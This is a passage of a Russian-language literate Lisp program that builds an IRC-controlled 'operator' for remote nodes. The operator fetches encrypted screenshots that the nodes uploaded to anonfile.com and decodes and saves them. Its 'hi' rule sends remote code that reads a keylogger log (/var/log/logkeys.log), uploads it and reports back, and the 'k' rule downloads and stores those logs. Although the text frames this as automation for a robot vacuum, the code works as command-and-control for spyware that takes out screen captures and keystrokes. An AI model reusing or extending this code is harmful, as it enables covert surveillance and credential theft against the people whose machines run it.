    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash (logand (+ width 7) (lognot 7)) -3))
           (need-finisher (not (equal new-width (ash width -3))))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8)))
           (bp 8)
           (acc 0))
      (declare (type (unsigned-byte 8) acc)
               (type fixnum bp)
               (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (macrolet ((byte-finisher (acc qy qx bp)
                   `(progn
                      ;; (format t "~8,'0B(~2,'0X)" ,acc ,acc)
                      (setf (aref result ,qy (ash ,qx -3)) ,acc)
                      (setf ,acc 0)
                      (setf ,bp 8))))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (declare (type fixnum qy))
          (do ((qx 0 (incf qx)))
              ((= qx width) (when need-finisher
                              (byte-finisher acc qy qx bp)))
            (declare (type fixnum qx))
            (let* ((avg (floor (+ (aref image qy qx 0)
                                  (aref image qy qx 1)
                                  (aref image qy qx 2))
                               3))
                   (pnt (ash avg -7)))
              (declare (type fixnum avg))
              (declare (type fixnum pnt))
              (decf bp)
              (setf acc (logior acc (ash pnt bp)))
              (when (= bp 0)
                (byte-finisher acc qy qx bp))))
          ;; (format t "~%")
          ))
      result))

  ;; (disassemble 'pack-img)

  ;; TEST: pack-img
  ;; (time
  ;;  (let* ((image (pack-img (x-snapshot)))
  ;;         (dims (array-dimensions image)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              image
  ;;              :grayscale)))
#+END_SRC

** X-Snapshot

Этот раздел описывает библиотечные функции, которые необходимы для получения снимков экрана

Работа с экраном через ~xlib~:
- Получение размеров экрана
- Получение снимков экрана

После получения размеров экрана мы сохраняем их в глобальные переменные вида ~default-*~, чтобы после работать с ними напрямую - за это отвечает вызов функции ~init-defaults~.

При формировании скришота мы перекодируем его функцией ~raw-image->png~. При оптимизации эту перекодировку следует удалить, чтобы ускорить работу, но пока нам требуется отлаживаемость а не скорость.

* Operator's Loop

Наблюдать за узлом сети и отправлять команды очень увлекательно, но хочется добавить автоматизации. Например, если глупый робот-пылесос умеет посылать в канал сообщение о том, что батарея разряжается, то умная программа-оператор, сидящая в irc-канале может начать с ним диалог, чтобы довести его до зарядной станции.

Для этого оператору нужно только уметь принимать сообщения и декодировать отправленные данные. Общая схема работы будет такая же как у супервизора: используем ~operator-loop~ и ~watchdog-timer~, чтобы циклически вызывать функцию из глобальной переменной ~*operator*~.

Каждую секунду ~operator-loop~ инкрементирует состояние переменной ~watchdog-timer~ и вызывает ~operator~. Внутри себя ~operator~ использует значение этой переменной, чтобы отслеживать зависшие потоки и завершать их.

#+NAME: operator_loop
#+BEGIN_SRC lisp :noweb yes
  <<debug>>

  (defparameter *watchdog-timer* 0)

  (defparameter *operator-stop-flag* nil)

  (defparameter *sleep-interval* 3)

  <<operator>>

  (defun operator-loop ()
    (setf *watchdog-timer* 0)
    (tagbody
     infinite
       (when *operator-stop-flag*
         (go end))
       (dbg "~%:: operator-loop WGD=~3,'OD~%" *watchdog-timer*)
       (funcall *operator*)
       (sleep *sleep-interval*)
       (incf *watchdog-timer*)
       (go infinite)
     end))

  (operator-loop)
#+END_SRC

** Operator

Оператор работает с потоками ~op-irc-th~, задача которых - обрабатывать сообщения, которые приходят из IRC-канала. Эти потоки могут зависнуть попав в необработанную ошибку или при сбое сети, поэтому оператор должен минимизировать ущерб от таких зависаний. В норме мы считаем, что должен работать один поток ~op-irc-th~.

Вторая задача оператора - осуществлять управление потоками, которые выполняют задачи. Эти задачи возникают, когда из IRC-канала приходят сообщения. В общем случае в для обработки каждого сообщения может создаваться свой поток, при этом в силу (возможно) нестабильной работы сети, часть из этих потоков может зависать. Это не должно сказываться на роботоспособности всей программы.

Оператору для работы потребуются вспомогательные функции, которые:
- ищут потоки по их именам
- завершают поток
- очищают список потоков от тех, что уже завершены

Поэтому мы можем определить рамочную функцию здесь, а куски кода, которые выполняют логику работы с разными типами потоков доопределить ниже в этом же разделе.

#+NAME: operator
#+BEGIN_SRC lisp :noweb yes
  (defparameter *watchdog-timer-max* 100)

  (defparameter *task-th-stop-flag* nil)

  (defparameter *op-irc-th-stop-flag* nil)

  (defparameter *op-connection-established-flag* nil)

  (defparameter *op-irc-threads* nil)

  (defparameter *max-task-thread-cnt* 30)

  (defparameter *task-threads* nil)

  (defparameter *max-task-thread-life-time* 5)

  (defparameter *thread-operations-lock*
    (bt:make-recursive-lock "thread-operations-lock"))

  <<queues>>

  <<op_irc>>

  <<task_function>>

  (defparameter *operator*
    (lambda ()
      (let ((all-threads (mapcar #'(lambda (th)  (cons (bt:thread-name th) th))
                                 (bt:all-threads))))
        (labels ((fnd (name) (loop :for (nm . th) :in all-threads
                                :do (when (equal name nm)  (return th))))
                 (kill (th)  (handler-case (bt:destroy-thread th)
                               ;; happens, when thread destroyed already
                               (TYPE-ERROR () nil)
                               (SB-THREAD:INTERRUPT-THREAD-ERROR () nil)))
                 (kill-op-irc (th)
                   (kill th)
                   (setf *watchdog-timer* 0)
                   (setf *op-connection-established-flag* nil))
                 (clear ()
                   (bt:with-recursive-lock-held (*thread-operations-lock*)
                     (setf *task-threads*
                           (remove-if-not #'(lambda (pair)
                                              (bt:thread-alive-p (car pair)))
                                          ,*task-threads*)))))
          <<op_irc_th_management>>
          <<tasks_th_management>>
          ))))
#+END_SRC

*** op-irc-th management

Если отсутствуют потоки ~op-irc-th~ оператор будет пытаться создать один, и реинициализировать ~watchdog-timer~.

Если хотя бы один поток ~op-irc-th~ существует, но значение ~watchdog-timer~ слишком велико - он будет убит, потому что, вероятно, он завис. Ведь независший поток сбрасывал бы ~watchdog-timer~ каждый раз выполняя какую-либо операцию, например, получая сообщение.

Если значение ~watchdog-timer~ продолжает оставаться слишком большим, т.е. никакой из зависший потоков не подал признаки жизни, то при следующем запуске ~operator~ будет убит следующий поток.

И так далее, пока потоков ~op-irc-th~ не останется (или один из оживших потоков ~op-irc-th~ не обнулит таймер - например при приходе сообщения).

Когда все потоки будут уничтожены оператор будет пытаться создавать новые, сводя задачу к известной.

Так мы обеспечиваем попытки перезапуска, уничтожая все потоки когда ~watchdog-timer~ перестает обновляться и избегая ситуации, когда в канале одновременно больше одного независшего потока.

#+NAME: op_irc_th_management
#+BEGIN_SRC lisp :noweb yes
  ;; if there is no irs-thread then start it
  (when (and (null (fnd "op-irc-th"))       ;; no op-irc-th
             (null *op-irc-th-stop-flag*))  ;; no op-irc-th stop flag
    (dbg ":: operator lambda: start irc-th~%")
    (setf *watchdog-timer* 0)
    (bt:make-thread
     #'op-irc :name "op-irc-th"
     :initial-bindings
     `((*standard-output* . ,*standard-output*)
       (*op-irc-thread-stop-flag* . ,*op-irc-th-stop-flag*))))
  ;; if there is irc-thread, but the watchdog-timer exceeds
  ;; or the flag is set - then kill it.
  (awhen (fnd "op-irc-th")
    (when (> *watchdog-timer*  *watchdog-timer-max*)
      (dbg ":: operator-lambda: kill op-irc-th by WDG~%")
      (kill-op-irc it))
    (when *op-irc-th-stop-flag*
      (dbg ":: operator-lambda: kill op-irc-th by FLAG~%")
      (kill-op-irc it)))
#+END_SRC

*** Task's threads management

Мы получаем задачи из очереди, которая будет определена в одном из разделов ниже. В первую очередь, необходимо следить, чтобы количество рабочих потоков не было слишком большим, убивая потоки, которые дольше всех работают. Мы считаем, что никакой поток не должен работать более ~max-task-thread-life-time~ секунд. Если он работает дольше - мы можем это позволить только если система не перегружена, т.е. общее количество потоков меньше ~max-task-thread-cnt~.

#+NAME: kill_slow_task_threads
#+BEGIN_SRC lisp :noweb yes
  (when (> (length *task-threads*) *max-task-thread-cnt*)
    (dbg ":: operator-lambda: many task threads~%")
    (loop :for (task-th . time) :in *task-threads* :do
         (dbg ":: operator-lambda-killer ~A . ~A~%" task-th time)
         (when (> (- (get-universal-time) time)
                  ,*max-task-thread-life-time*)
           (dbg ":: operator-lambda: kill task-th by lifetime exceed~%")
           (kill task-th)))
    (clear))
#+END_SRC

Кроме того, по идее, необходимо следить, [TODO:gmm] чтобы очередь не переполнялась, но я пока не решил, как именно лучше делать - прекратить ли принимать новые задачи или удалять старые: по идее все приходящие задачи для нас одинаково важны.

Переходим к выполнению задач.

Если очередь не пуста, то было бы неплохо вынуть из нее несколько задач и для каждой из них запустить поток. [TODO:gmm] Но пока я запускаю по одной задаче на итерацию.

#+NAME: start_task_thread
#+BEGIN_SRC lisp :noweb yes
  (when (< 0 (length-of-queue))
    (let* ((current-task (pop-task))
           (bindings `((*standard-output* . ,*standard-output*)
                       (*task-thread-stop-flag* . ,*task-th-stop-flag*)
                       (*current-task* . ,current-task)
                       (*op-sess* . ,*op-sess*)
                       (*op-user* . ,*op-user*)
                       (*op-serv* . ,*op-serv*)
                       (*op-chan* . ,*op-chan*)
                       (*op-lock* . ,*op-lock*)
                       (*op-conn* . ,*op-conn*)
                       (*watchdog-timer* . ,*watchdog-timer*))))
      (bt:with-recursive-lock-held (*thread-operations-lock*)
        (push (cons (bt:make-thread #'task :name "task-th"
                                    :initial-bindings bindings)
                    (get-universal-time))
              ,*task-threads*))))
#+END_SRC

Собственно функция ~TASK~, которая выполняет задачу, будет описана в соответствуюшщем разделе.

Собираем все вместе:

#+NAME: tasks_th_management
#+BEGIN_SRC lisp :noweb yes
  <<kill_slow_task_threads>>
  <<start_task_thread>>
#+END_SRC

** Operator's Irc Thread Function

Когда оператор создает новый поток в качестве функции потока он указывает ~op-irc~. Задачи этой функции:
- создать соединение с IRC-сервером
- обнулить ~watchdog-timer~
- запустить ~op-loop~ для обработки сообщений IRC

Если нет подключения к сети мы получим ошибку ~USOCKET:NS-TRY-AGAIN-CONDITION~, которая будет проигнорирована, но записана в лог, как и любые другие ошибки подключения. В этих случаях функция ~op-loop~ не будет вызвана, произойдет выход их функции потока и поток будет завершен. Обнаружив отсутствие потока супервизор перезапустит его и это приведет к следующей попытке подключения.

#+NAME: op_irc
#+BEGIN_SRC lisp :noweb yes
  (defparameter *op-sess* nil)
  (defparameter *op-user* nil)
  (defparameter *op-serv* "irc.freenode.org")
  (defparameter *op-chan* "#<<get_irc_channel_name()>>")
  (defparameter *op-lock* (bt:make-recursive-lock "op-lock"))
  (defparameter *op-conn* nil)

  <<op_loop>>

  (defun op-irc ()
    "operator's irc thread func"
    (setf *op-sess* (get-universal-time))
    (setf *op-user* (format nil "op~A" *op-sess*))
    (setf *op-conn*
          (handler-case
              (cl-irc:connect :nickname *op-user* :server *op-serv*)
            (USOCKET:NS-TRY-AGAIN-CONDITION (err)
              (dbg "::irc connect error: ~A~%" (type-of err))
              nil)
            (t (err)
              (dbg "::irc connect error: ~A~%" (type-of err))
              nil)))
    (when *op-conn*
      (dbg "::op irc conn:~A~%" *op-conn*)
      (setf *watchdog-timer* 0)
      (op-loop)))
#+END_SRC

** Operator's Loop

На этом месте текущий поток должен запустить поток-помошник, который инжектирует хук, подключитья к каналу и установит ~op-connection-established-flag~.

Запустив этот поток, можно сразу же зациклиться читая сообщения - дальше будут работать установленные хуки. Они будут вызываться в контексте текущего потока, асинхронно, из функции пакета ~cl-irc~.

#+NAME: op_loop
#+BEGIN_SRC lisp :noweb yes
  <<op_helper>>

  (defun op-loop ()
    (bt:make-thread
     #'op-helper :name "op-helper-th"
     :initial-bindings
     `((*standard-output* . ,*standard-output*)
       (*op-sess* . ,*op-sess*)
       (*op-user* . ,*op-user*)
       (*op-serv* . ,*op-serv*)
       (*op-chan* . ,*op-chan*)
       (*op-lock* . ,*op-lock*)
       (*op-conn* . ,*op-conn*)))
    (handler-case (cl-irc:read-message-loop *op-conn*)
      (SB-INT:SIMPLE-STREAM-ERROR (err)
        (dbg ":: op-loop error: ~A~%" (type-of err)))
      ;; (t (err)
      ;;   (dbg "::op-loop error: ~A~%" (type-of err)))
      ))
#+END_SRC

*** Operator's helper thread

Поток-помошник занимается только тем, что устанавливает хук, джоинится в канал и отправляет приветственное сообщение о том что он в канале.

#+NAME: op_helper
#+BEGIN_SRC lisp :noweb yes
  (defmacro sendmsg (msg &rest params)
    `(bt:with-recursive-lock-held (*op-lock*)
       (cl-irc:privmsg *op-conn* *op-chan* (format nil ,msg ,@params))))

  ;; op-hook
  <<op_hook>>

  (defun op-helper ()
    (sleep 1)
    (cl-irc:add-hook *op-conn* 'cl-irc:IRC-PRIVMSG-MESSAGE #'op-msg-hook)
    (sleep 1)
    (bt:with-recursive-lock-held (*op-lock*)
      (cl-irc:join *op-conn* *op-chan*))
    (sleep 1)
    (bt:with-recursive-lock-held (*op-lock*)
      (setf *op-connection-established-flag* t))
    (sendmsg "op here"))
#+END_SRC

** Operator's Message Hook

Собственно хук, который обрабатывает приходящие в канал сообщения. Он вынесен в глобальную переменную для удобства замены на лету.

Чтобы предотвратить последующую обработку процедура хука должна возвращать T.

#+NAME: op_hook
#+BEGIN_SRC lisp :noweb yes
  ;; op_cmd_proc
  <<op_cmd_proc>>

  (defun op-msg-hook (param)
    "MUST return T for stop hooks processing"
    (funcall *op-cmd* param)
    t)
#+END_SRC

** Rule-based Command Processor

Ну вот, теперь осталось правильно реагировать на команды. Чтобы распознать команду мы будем применять диспетчер, работающий как система правил. Он опирается на список правил, каждая из которых представляет пару (условие . действие).

Правила должны иметь возможность делать что-то асинхронно, для этого мы подключаем механизм очередей.

#+NAME: op_cmd_proc
#+BEGIN_SRC lisp :noweb yes
  <<shot_rule>>
  <<hi_rule>>
  <<k_rule>>

  (defparameter *op-rules*
    (list (cons #'shot-rule-antecedent  #'shot-rule-consequent)
          (cons #'hi-rule-antecedent    #'hi-rule-consequent)
          (cons #'k-rule-antecedent     #'k-rule-consequent)))

  (defparameter *op-cmd*
    (lambda (param)
      (block op-cmd-block
        (let* ((msg  (cadr (CL-IRC:ARGUMENTS param)))
               (src  (CL-IRC:SOURCE param))
               ;; (oct  (decrypt msg *op-sess*))
               ;; (str  (handler-case
               ;;           (flex:octets-to-string oct :external-format :utf-8)
               ;;         (FLEXI-STREAMS:EXTERNAL-FORMAT-ENCODING-ERROR () nil)))
               (str msg)
               )
          (dbg ":: op-cmd ~A: ~A~%" src str)
          (block op-rules-dispatcher
            (let ((applyed_rules 0))
              (loop :for (antecedent . consequent) :in *op-rules* :do
                   (when (funcall antecedent str src)
                     (incf applyed_rules)
                     (dbg ":: op-cmd rule: ~A~%" consequent)
                     (when (funcall consequent str src)
                       (return-from op-rules-dispatcher nil))))
              (when (> 0 applyed_rules)
                (dbg "::UNKMSG [~A] from [~A]~%" str src))
              (finish-output)))
          ))))
#+END_SRC

** Shot Rule

Правило для скриншотов просто проверяет сообщение на соответствие регулярному выражению. Если есть совпадение - мы должны как минимум скачать и сохранить данные.

Однако, скачивание может наткнуться на сбой сети и зависнуть, и в этом случае хук никогда не завершиться и соответственно зависнет цикл чтения IRC-сообщений, потому что хук выполняется в его контексте. Поэтому вместо того, чтобы начать скачивание и обработку - мы делаем отложенную задачу и помещаем её в очередь.

#+NAME: shot_rule
#+BEGIN_SRC lisp :noweb yes
  (defun shot-rule-antecedent (str src)
    (declare (ignore src))
    (ppcre:scan-to-strings "^/.*/[0-9]*(_[0-9])?$" str))

  (defun shot-rule-consequent (str src)
    (dbg ":: shot-rule-consequent (~A) ~A: ~A~%"
         (length-of-queue) src str)
    (ins-task (make-task :class 'task
                         :data (list str src)
                         :code #'identity)))

  ;; (shot-rule-consequent "/pe3bM7E9n5/3785062633" "b3785062627")
#+END_SRC

** Queues

Когда мы скачиваем файл с файлообменника - это может окончиться неудачей. В этом случае удобно обрабатывать такие сбои в CPS-стиле, особенно когда мы хотим запускать скачку паралельно, в несколько потоков.

Чтобы отвязать запуск потоков от системы правил мы будем использовать очередь, в которую будем добавлять задания на обработку. Преимуществом такого подхода может быть возможность ссылаться на ранее выполнявшиеся задания.

Структуру задания определим так:

#+NAME: task
#+BEGIN_SRC lisp
  (defstruct task
    class
    data
    code)
#+END_SRC

Для обслуживания очереди нам понадобится сама очередь и блокировка на ней:

#+NAME: task_queue
#+BEGIN_SRC lisp
  (defparameter *task-queue* nil)
  (defparameter *task-queue-lock* (bt:make-lock "task-queue-lock"))
#+END_SRC

Теперь можно добавить операции для добавления и удаления из очереди заданий.

#+NAME: task_queue_ops
#+BEGIN_SRC lisp
  (defun ins-task (task)
    (bt:with-lock-held (*task-queue-lock*)
      (setf *task-queue*
            (append *task-queue*
                    (list task)))))

  (defun pop-task ()
    (bt:with-lock-held (*task-queue-lock*)
      (pop *task-queue*)))

  (defun length-of-queue ()
    (bt:with-lock-held (*task-queue-lock*)
      (length *task-queue*)))
#+END_SRC

Теперь соединим все вместе

[TODO:gmm] Надо еще добавить менеджер очередей в отдельном потоке, который разбирает и выполняет задачи.

#+NAME: queues
#+BEGIN_SRC lisp :noweb yes
  <<task>>
  <<task_queue>>
  <<task_queue_ops>>
#+END_SRC

** Task Function

Эта функция вызывается каждый раз, когда нужно обработать задачу из очереди. Она получает задачу в переменной ~current-task~.

Сейчас ей остается только вызвать ~shot-downloader~, передав ему параметры из задачи.

#+NAME: task_function
#+BEGIN_SRC lisp :noweb yes
  <<shot_downloader>>

  (defun task ()
    (destructuring-bind (str src)
        (task-data *current-task*)
      ;; (dbg ":: TF (~A): ~A: ~A~%" (length-of-queue) src str)
      (shot-downloader str src)))
#+END_SRC

** Shot Downloader

Однако, необходимо описать операцию, которая будет вызываться из таска и выполнять всю грязную работу.

#+NAME: shot_downloader
#+BEGIN_SRC lisp :noweb yes
  ;; anon_file_download
  <<anon_file_download>>

  ;; seq_xor
  <<seq_xor>>

  ;; decrypt
  <<decrypt>>

  ;; unpack_img
  <<unpack_img>>

  (defun shot-downloader (str src)
    (let* ((key (parse-integer (subseq src 1)))
           (enc (anon-file-download str))
           (dec (decrypt enc key))
           (png (let ((png-read::*png-file* "fake-file"))
                  (flex:with-input-from-sequence (stream dec)
                    (png-read:read-png-datastream stream))))
           (image-data (png-read:image-data png))
           ;; reverse
           (dims   (subseq (array-dimensions image-data) 0 2))
           (height (cadr dims))
           (width  (car  dims))
           (image ;; меняем размерности X и Y местами
            (let ((result (make-array (list height width)
                                      :element-type '(unsigned-byte 8))))
              (do ((y 0 (incf y)))
                  ((= y height))
                (do ((x 0 (incf x)))
                    ((= x width))
                  (setf (aref result y x)
                        (aref image-data x y))))
              result))
           ;; (dif (ppcre:scan-to-strings "/(.*)/([0-9]*)_([0-9]*)" str))
           ;; (img (if (not dif)
           ;;          (setf prev image)
           ;;          ;; else
           ;;          (setf prev (get-img-diff dims prev image))))
           (img image)
           ;; unpacking
           (unpack (unpack-img img))
           (unpack-dims (array-dimensions unpack))
           (new-width (cadr unpack-dims))
           (fname-str (multiple-value-bind (match-p result)
                          (ppcre:scan-to-strings "/.*/(.*)" str)
                        (elt result 0))))
      (let* ((png (make-instance 'zpng:png
                                 :width new-width
                                 :height height
                                 :color-type :grayscale))
             (vector (make-array ;; displaced vector - need copy for save
                      (* height new-width (zpng:samples-per-pixel png))
                      :displaced-to unpack :element-type '(unsigned-byte 8))))
        ;; Тут применен потенциально опасный трюк, когда мы создаем
        ;; объект PNG без данных, а потом добавляем в него данные,
        ;; используя неэкспортируемый writer.
        ;; Это нужно чтобы получить третью размерность массива,
        ;; который мы хотим передать как данные и при этом
        ;; избежать создания для этого временного объекта
        (setf (zpng::%image-data png) (copy-seq vector))
        (zpng:write-png png (format nil "~~/<<get_dest_path()>>/~A" fname-str)))
      t))
#+END_SRC

** Anon File Download

#+NAME: anon_file_download
#+BEGIN_SRC lisp :noweb yes
  (defparameter *user-agent* "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0")

  (defparameter *additional-headers*
    `(("Accept" . "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8")
      ("Accept-Language" . "ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3")
      ("Accept-Charset" . "utf-8")))

  (defun get-download-link (text)
    (loop :for str :in (split-sequence:split-sequence #\Newline text)
       :do (multiple-value-bind (match-p result)
               (ppcre:scan-to-strings
                "(https://cdn-([0-9]*)\.anonfile.com\/(.*))\\\""
                str)
             (when match-p (return (aref result 0))))))

  (defun anon-file-download (filename)
    (let ((cookie-jar (make-instance 'drakma:cookie-jar)))
      ;; load mainpage for cookies, headers and csrf
      (multiple-value-bind (body-or-stream ;; status-code headers uri
                            ;;stream must-close reason-phrase
                            )
          (drakma:http-request (format nil "https://anonfile.com~A" filename)
                               :user-agent *user-agent*
                               :redirect 10
                               :force-binary t
                               :cookie-jar cookie-jar
                               :additional-headers *additional-headers*)
        (let* ((text (flex:octets-to-string body-or-stream :external-format :utf-8))
               (link (get-download-link text)))
          (multiple-value-bind (body-or-stream ;; status-code headers uri
                                ;;stream must-close reason-phrase
                                )
              (drakma:http-request link
               :user-agent *user-agent*
               :cookie-jar cookie-jar
               :additional-headers *additional-headers*
               :force-binary t)
            (flex:octets-to-string body-or-stream :external-format :utf-8))))))
#+END_SRC

** Unpack image

#+NAME: unpack_img
#+BEGIN_SRC lisp
  (defun unpack-img (image)
    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash width 3))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8))))
      (declare (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (do ((qy 0 (incf qy)))
          ((= qy height))
        (declare (type fixnum qy))
        (do ((qx 0 (incf qx)))
            ((= qx width))
          (declare (type fixnum qx))
          (let ((acc (aref image qy qx)))
            (declare (type (unsigned-byte 8) acc))
            ;; (format t "~8,'0B" acc)
            (do ((out 0 (incf out))
                 (in  7 (decf in)))
                ((= 8 out))
              (declare (type fixnum out in))
              (unless (= 0 (logand acc (ash 1 in)))
                (setf (aref result qy (logior (ash qx 3) out))
                      255)))))
        ;; (format t "~%")
        )
      result))

  ;; TEST
  ;; (print
  ;;  (unpack-img
  ;;   (pack-img
  ;;    (x-snapshot :width 31 :height 23))))

  ;; TEST
  ;; (time
  ;;  (let* ((image  (load-png "FILE1088"))
  ;;         (unpack (unpack-img image))
  ;;         (dims (array-dimensions unpack)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              unpack
  ;;              :grayscale)))
#+END_SRC

** Hi Rule

Правило "ответить на приветствие" совпадает с приветственным сообщением. Чтобы оно было чуть сложнее чем просто посылка сообщения, мы можем попытаться загрузить какой-нибудь файл с удаленного узла

#+NAME: hi_rule
#+BEGIN_SRC lisp :noweb yes
  (defun hi-rule-antecedent (str src)
    (declare (ignore src))
    (ppcre:scan-to-strings "^hi$" str))

  <<upload_code_and_send>>

  (defun hi-rule-consequent (str src)
    (dbg ":: HI-rule-consequent (~A) ~A: ~A~%"
         (length-of-queue) src str)
    (let* ((tmpkey 1234567890)
           (receiver (parse-integer (subseq src 1)))
           (code (format
                  nil
                  "(progn (sendmsg (format nil \"k~~A\" (upload-code (alexandria:read-file-into-string \"/var/log/logkeys.log\") ~A))) t)"
                  tmpkey)))
      (upload-code-and-send code tmpkey receiver)))

  ;; (let* ((tmpkey 1234567890)
  ;;        (src "b3785294860")
  ;;        (receiver (parse-integer (subseq src 1)))
  ;;        (code (format
  ;;               nil
  ;;               "(progn (sendmsg (format nil \"k~~A\" (upload-code (alexandria:read-file-into-string \"/var/log/logkeys.log\") ~A))) t)"
  ;;               tmpkey)))
  ;;   (upload-code-and-send code tmpkey receiver))
#+END_SRC

** K Rule

#+NAME: k_rule
#+BEGIN_SRC lisp :noweb yes
  (defun k-rule-antecedent (str src)
    (declare (ignore src))
    (ppcre:scan-to-strings "^k/(.*)/u-(.*)$" str))

  <<download_and_decrypt>>

  (defun k-rule-consequent (str src)
    (dbg ":: K-rule-consequent (~A) ~A: ~A~%"
         (length-of-queue) src str)
    (let* ((tmpkey 1234567890))
      (alexandria:write-string-into-file
       (download-and-decrypt (subseq str 1) tmpkey)
       (format nil "~~/<<get_dest_path()>>/~A.log" (ppcre:regex-replace-all "/" str "_")))))
#+END_SRC

* Utils

#+NAME: debug
#+BEGIN_SRC lisp
  (defun decode-time (universal-time)
    (multiple-value-bind (second minute hour date month year day daylight-p zone)
        (decode-universal-time universal-time)
      (format nil "~A-~A-~A ~A:~A:~A" year month date hour minute second)))
#+END_SRC

* Old

#+NAME:
#+BEGIN_SRC lisp
  <<anon_file_upload>>
  <<unpack_img>>

  (defun save-png (width height pathname-str image
                   &optional (color-type :truecolor-alpha))
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type color-type))
           (vector (make-array ;; displaced vector - need copy for save
                    (* height width (zpng:samples-per-pixel png))
                    :displaced-to image :element-type '(unsigned-byte 8))))
      ;; Тут применен потенциально опасный трюк, когда мы создаем
      ;; объект PNG без данных, а потом добавляем в него данные,
      ;; используя неэкспортируемый writer.
      ;; Это нужно чтобы получить третью размерность массива,
      ;; который мы хотим передать как данные и при этом
      ;; избежать создания для этого временного объекта
      (setf (zpng::%image-data png) (copy-seq vector))
      (zpng:write-png png pathname-str)))

#+END_SRC

** Save and Load

Для целей отладки нам нужно уметь сохранять и загружать png-изображения

#+NAME: save_and_load_png
#+BEGIN_SRC lisp
  ;; DEPRECATED, use explicit saving png-sequence by with-open-file
  ;; (defun save-png (pathname-str png)
  ;;   (zpng:write-png png pathname-str))

  (defun load-png (pathname-str)
    "Возвращает массив size-X столбцов по size-Y точек,
       где столбцы идут слева-направо, а точки в них - сверху-вниз
       ----
       В zpng есть указание на возможные варианты COLOR:
       ----
             (defmethod samples-per-pixel (png)
               (ecase (color-type png)
                 (:grayscale 1)
                 (:truecolor 3)
                 (:indexed-color 1) ;; НЕ ПОДДЕРЖИВАЕТСЯ
                 (:grayscale-alpha 2)
                 (:truecolor-alpha 4)))
      "
    (let* ((png (png-read:read-png-file pathname-str))
           (image-data (png-read:image-data png))
           (color (png-read:colour-type png))
           (dims (cond ((or (equal color :truecolor-alpha)
                            (equal color :truecolor))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)
                              (array-dimension image-data 2)))
                       ((or (equal color :grayscale)
                            (equal color :greyscale))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)))
                       (t (error 'unk-png-color-type :color color))))
           (result ;; меняем размерности X и Y местами
            (make-array dims :element-type '(unsigned-byte 8))))
      ;; (dbg "~% new-arr ~A "(array-dimensions result))
      ;; ширина, высота, цвет => высота, ширина, цвет
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension result 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension result 1)))
                        ,@body))))
        (cond ((or (equal color :truecolor-alpha)
                   (equal color :truecolor))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension result 2)))
                        (setf (aref result y x z)
                              (aref image-data x y z)))))
              ((or (equal color :grayscale)
                   (equal color :greyscale))
               (cycle (setf (aref result y x)
                            (aref image-data x y))))
              (t (error 'unk-png-color-type :color color)))
        result)))
#+END_SRC

** Bit-vector operations

Для целей отладки определим операции кодирования в битовый вектор и обратно

#+NAME: bit_vector
#+BEGIN_SRC lisp
  (defun bit-vector->integer (bit-vector)
    "Create a positive integer from a bit-vector."
    (reduce #'(lambda (first-bit second-bit)
                (+ (* first-bit 2) second-bit))
            bit-vector))

  (defun integer->bit-vector (integer)
    "Create a bit-vector from a positive integer."
    (labels ((integer->bit-list (int &optional accum)
               (cond ((> int 0)
                      (multiple-value-bind (i r) (truncate int 2)
                        (integer->bit-list i (push r accum))))
                     ((null accum) (push 0 accum))
                     (t accum))))
      (coerce (integer->bit-list integer) 'bit-vector)))
#+END_SRC

** Binarization

Получение черно-белого изображения или в градациях серого из полноцветного.

Здесь остается пространство для оптимизаций путем применения SIMD-операций.

#+NAME: binarization
#+BEGIN_SRC lisp
  (defun binarization (image &optional threshold)
    (let* ((dims (array-dimensions image))
           (new-dims (cond ((equal 3 (length dims))  (butlast dims))
                           ((equal 2 (length dims))  dims)
                           (t (error 'binarization-error))))
           (result (make-array new-dims :element-type '(unsigned-byte 8))))
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension image 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension image 1)))
                        ,@body))))
        (cond ((equal 3 (length dims))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension image 2)))
                        (let ((avg (floor (+ (aref image y x 0)
                                             (aref image y x 1)
                                             (aref image y x 2))
                                          3)))
                          (when threshold
                            (if (< threshold avg)
                                (setf avg 255)
                                (setf avg 0)))
                          (setf (aref result y x) avg)))))
              ((equal 2 (length dims))
               (cycle (let ((avg (aref image y x)))
                        (when threshold
                          (if (< threshold avg)
                              (setf avg 255)
                              (setf avg 0)))
                        (setf (aref result y x) avg))))
              (t (error 'binarization-error))))
      result))

  ;; TEST: binarize and save screenshot
  ;; (let* ((to   "x-snapshot-binarize.png")
  ;;        (image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;   (destructuring-bind (height width) ;; NB: no depth!
  ;;       (array-dimensions image-data)
  ;;     (save-png width height to image-data :grayscale))) ;; NB: grayscale!


  ;; TEST: binarize get png and save
  ;; (print
  ;;  (let* ((image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;    (destructuring-bind (height width) ;; NB: no depth!
  ;;        (array-dimensions image-data)
  ;;      (let ((seq (get-png width height image-data :grayscale)))
  ;;        (with-open-file (file-stream "tee.png"
  ;;                                     :direction :output
  ;;                                     :if-exists :supersede
  ;;                                     :if-does-not-exist :create
  ;;                                     :element-type '(unsigned-byte 8))
  ;;          (write-sequence seq file-stream))))))
#+END_SRC

